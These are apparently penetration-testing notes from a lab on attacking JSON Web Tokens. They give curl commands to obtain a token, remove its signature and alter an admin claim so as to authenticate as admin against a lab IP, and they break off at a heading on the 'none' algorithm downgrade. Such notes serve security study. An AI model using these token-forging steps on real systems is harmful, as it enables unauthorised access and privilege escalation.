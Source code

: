 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Authenticate with a user and grab the JWT token from that user)

### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Grab the JWT token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT token)

### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

 - curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE





